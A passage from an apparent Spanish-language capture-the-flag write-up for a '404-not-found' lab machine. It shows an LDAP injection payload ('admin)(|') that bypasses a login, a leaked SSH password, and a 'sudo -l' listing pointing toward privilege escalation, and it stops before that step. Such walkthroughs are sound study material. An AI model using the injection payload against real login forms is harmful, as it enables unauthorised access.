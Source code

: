 ```shell
nano /etc/hosts

#Dentro del nano
<IP>       404-not-found.hl info.404-not-found.hl
```

Lo guardamos y nos iremos a la siguiente URL.

```
URL = http://info.404-not-found.hl/
```

Dentro de este `subdominio` veremos un panel de `login` el cual no hace gran cosa, tampoco es inyectable a `SQLInjecction`, no van las credenciales por defecto, pero si inspeccionamos el codigo vemos lo siguiente.

```html
<!-- I believe this login works with LDAP -->
```

Nos da una pista de que puede ser vulnerable con un `Bypass` de `LDAP`.

## Bypass LDAP

URL = https://book.hacktricks.xyz/pentesting-web/ldap-injection#login-bypass

Probaremos a bypassear el login de la siguiente forma.

```
User = admin)(|
Pass = admin)(|
```

Y por lo que vemos accedemos al panel de administrador, si bajamos un poco vemos unas credenciales las cuales probaremos mediante `SSH`.

## SSH

```shell
ssh 404-page@<IP>
```

Metemos la contraseña obtenida `not-found-page-secret` y ya estariamos dentro.

## Escalate user 200-ok

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for 404-page on 084fadd2eeb1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User 404-page may run the following commands on 084fadd2eeb1:
    (200-ok : 200-ok) /home/404-page/calculator.py
```
